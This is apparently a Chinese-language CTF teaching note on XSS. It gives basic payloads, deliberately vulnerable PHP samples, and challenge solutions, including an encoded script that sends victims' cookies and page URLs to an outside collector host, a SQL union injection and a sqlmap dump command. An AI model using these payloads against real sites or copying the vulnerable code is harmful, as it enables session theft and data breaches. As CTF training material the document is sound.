


# CTF-WEB-XSS

## 什么是 XSS

---

## XSS 存在的原因

> url 中参数，用户输入的地方没有做充分的过滤，有一些不合法的参数和输入回到我们的 web 服务器，那用户在访问前端页面的时候就会把不合法的代码执行，导致这样一个后果。

---

## XSS 类型

反射型

- 服务端返回脚本，客户端执行，非持久性
- CTF 比赛中出现的场景：加载图片处、编辑用户名处

存储型

- 后台存储了非法脚本，并前端直接展示，持久性
- CTF 比赛中出现的场景：留言板，给管理员发一条留言好吗？

DOM 型

- CTF 比赛中出现的场景：动态执行 JavaScript 语句，更改 dom 树结构

在 CTF 题中最多的是 **反射XSS** 和**存储型XSS** 、**DOM 型XSS**的很少

## XSS 的危害

- 挂马
- 盗取用户的 cookie
- DDOS(拒绝服务攻击)
- 钓鱼攻击
- 删除目标文章、恶意篡改数据、嫁祸
- 劫持用户 web 行为。甚至进一步渗透内网
- 爆发 web2.0 蠕虫

---

## XSS 的防范

`对输入进行过滤，对输出进行编码。`

1. 输入处理

   编码，转义（html entity）
   `< : &It > : &gt \:\\ / :\/`
2. cookie 设置为 http-only
3. 编程语言防御代码（不同编程语言有对应的库进行转义）

---

## XSS 题目对能力的要求

- 能够找到 XSS 的点
- 能够绕过浏览器内置的保护机制以及程序本身的过滤机制插入 XSS 脚本进行利用
- 会使用 XSS 盲打平台

### 常见的 XSS 出题方式

- 替换
- [内容安全策略( CSP )](http://www.ruanyifeng.com/blog/2016/09/csp.html)

---

## XSS 的 Playload

### `<script>`标签：`<script>`标签是最直接的 XSS 有效载荷，脚本标记可以引用外部的 JavaScript 代码，也可以将代码插入脚本标记中

```html
<script>alert("hack")</script>   #弹出hack
<script>alert(/hack/)</script>   #弹出hack
<script>alert(1)</script>        #弹出1，对于数字可以不用引号
<script>alert(document.cookie)</script>      #弹出cookie
<script src=http://xxx.com/xss.js></script>  #引用外部的xss
```

### `<svg>`标签

```html
<svg onload="alert(1)"><svg onload="alert(1)"//</svg>
```

### ``标签

```html

 #弹出cookie
```

### `<body>`标签

```html
<body οnlοad="alert(1)">
  <body οnpageshοw="alert(1)"></body>
</body>
```

### `<video>`标签

```html
<video οnlοadstart="alert(1)" src="/media/hack-the-planet.mp4" />
```

### `<style>`标签

```html
<style οnlοad="alert(1)"></style>
```

## XSS 类型介绍

### 反射型 XSS

> 非持久化，需要欺骗用户自己去点击链接才能触发 XSS 代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面。
反射型 XSS 大多数是用来盗取用户的 Cookie 信息。原型如下：

```php
<?php
ini_set("display_errors", 0);
$str = $_GET["name"];
echo "<h2 align=center>欢迎用户".$str."</h2>";
?>
<center></center>
<?php
echo "<h3 align=center>payload的长度:".strlen($str)."</h3>";
?>
```

```js
// playload
?name = <script>alert('xss')</script>
```

### 存储型 XSS

> 非持久化，需要欺骗用户自己去点击链接才能触发 XSS 代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面。
反射型 XSS 大多数是用来盗取用户的 Cookie 信息。

```html
//前端：2.html
<html>
  <head lang="en">
    <meta charset="UTF-8" />
    <title>存储型XSS</title>
  </head>
  <body>
    <form action="action2.php" method="post">
      输入你的ID： <input type="text" name="id" /> <br />
      输入你的Name：<input type="text" name="name" /> <br />
      <input type="submit" value="提交" />
    </form>
  </body>
</html>
```

```php
//后端：action2.php
<?php
 $id=$_POST["id"];
 $name=$_POST["name"];
 mysql_connect("localhost","root","root");
 mysql_select_db("test");

 $sql="insert into xss value ($id,'$name')";
 $result=mysql_query($sql);
?>
//供其他用户访问页面：show2.php
<?php
 mysql_connect("localhost","root","root");
 mysql_select_db("test");
 $sql="select * from xss where id=1";
 $result=mysql_query($sql);
 while($row=mysql_fetch_array($result)){
  echo $row['name'];
 }
?>
```

### DOM 型 XSS

> 不经过后端，DOM-XSS 漏洞是基于文档对象模型(Document Objeet Model,DOM)的一种漏洞，
> DOM-XSS 是通过 url 传入参数去控制触发的，其实也属于反射型 XSS。

```html
<!-- 前端3.html -->
<html>
  <head lang="en">
    <meta charset="UTF-8" />
    <title>DOM型XSS</title>
  </head>
  <body>
    <form action="action3.php" method="post">
      <input type="text" name="name" />
      <input type="submit" value="提交" />
    </form>
  </body>
</html>
```

```php
// 后端action3.php
<?php
  $name=$_POST["name"];
?>
<input id="text" type="text" value="<?php echo $name; ?>"/>
<div id="print"></div>
<script type="text/javascript">
  var text=document.getElementById("text");
  var print=document.getElementById("print");
  print.innerHTML=text.value;  // 获取 text的值，并且输出在print内。这里是导致xss的主要原因。
</script>
```

---

## 例题 1 **BUU XSS COURSE 1**

- 考察点：xss 跨站点脚本

```js
payload1:<script>alert(111)</script>
payload2:
payload3:
```

[HTML `` 标签](https://www.w3school.com.cn/tags/tag_img.asp)
[HTML 事件属性](https://www.w3school.com.cn/tags/html_ref_eventattributes.asp)

- 使用 buuctf 的 xss Platform 提供的代码构造 payload:

```js

```

工具：
[EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg)
或[brupsuite](https://portswigger.net/burp)修改请求的 cookie

---

## 例题 2 **[CISCN2019 华东北赛区]Web2**

- 考察点：储存型 XSS 与过滤绕过、sql 注入

---


---

## 例题 2 **[CISCN2019 华东北赛区]Web2**



---

其中 default-src 'self';'unsafe-inline' 'unsafe-eval'是什么意思

1. default-src 'self'：只允许加载站内资源
2. 'unsafe-inline'：允许执行页面内嵌的标签个事件监听函数
3. 'unsafe-eval'：允许将字符串当作代码执行，比如使用 eval、setTimeout、setInterval 等函数

**使用[HTML Markup](https://www.w3.org/MarkUp/html-spec/html-spec_13.html)来绕过**

---

## 例题 2 **[CISCN2019 华东北赛区]Web2**

转换脚本

```python
in_str = "(function(){(window.location.href='http://xss.buuoj.cn/index.php?do=api&id=uavZKE&location='+escape((function(){try{return document.location.href}catch(e){return ''}})())+'&toplocation='+escape((function(){try{return top.location.href}catch(e){return ''}})())+'&cookie='+escape((function(){try{return document.cookie}catch(e){return ''}})())+'&opener='+escape((function(){try{return (window.opener && window.opener.location.href)?window.opener.location.href:''}catch(e){return ''}})());})();"
output = ""
for c in in_str:

    output += "&#" + str(ord(c))

print("<svg><script>eval&#40&#34" + output + "&#34&#41</script></svg>")
```

---

## 例题 2 **[CISCN2019 华东北赛区]Web2**



---

## 例题 2 **[CISCN2019 华东北赛区]Web2**

在提交 URL 的地方需要提交验证码，验证码需要计算 ，下面为计算验证码脚本。

```python
import hashlib

for i in range(1,100000001):
    s=hashlib.md5(str(i).encode('utf-8')).hexdigest()[0:6]
    if s== "71bdc4":
        print(i)
        break
```

---

## 例题 2 **[CISCN2019 华东北赛区]Web2**

测一下，发现应该是有 sql 注入的。
`-1 union select 'a','l','z'#`


---

那直接 sqlmap 跑跑试试

> sqlmap -u "http://b93b108d-d3f1-483b-8792-b57923b21dd1.node3.buuoj.cn/admin.php?id=22" --cookie="PHPSESSID=a12c2fc20734d96babeb90efb16ba48d" -T flag --dump --flush-session --fresh-queries

---

## 参考链接

[window.opener](https://www.runoob.com/jsref/prop-win-opener.html)
[CSP](https://www.cnblogs.com/lxl57610/p/7426326.html)
[CSP 绕过方法总结-先知社区](https://xz.aliyun.com/t/5084#toc-15)
[CSP 绕过方法总结-知乎](https://zhuanlan.zhihu.com/p/94246164)
[深入理解浏览器解析机制和 XSS 向量编码](http://bobao.360.cn/learning/detail/292.html)

---

## 练习题目

writeups：[1](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/xss-game/level-3) [2](https://www.zhaoj.in/read-6100.html)

1. **0x01 XSS 跨站脚本攻击**【中等】

   - 题目地址:*[xss-game](https://xss-game.appspot.com/level3)*
   - 思路：通过观察参数，发现 url 内容被直接写入了\标签，尝试构造 payload，发现双引号被过滤，使用单引号成功触发 xss

2. **0x02 XSS 跨站脚本攻击**【中等】
   - 题目地址:*[web 类 CISCN2019 华东北赛区 web2](https://buuoj.cn/challenges)*
   - 思路：找到 XSS 注入点，绕过 csp 限制，获取管理员的 cookie，使用管理员的 cookie 登录，sql 注入得到 flag
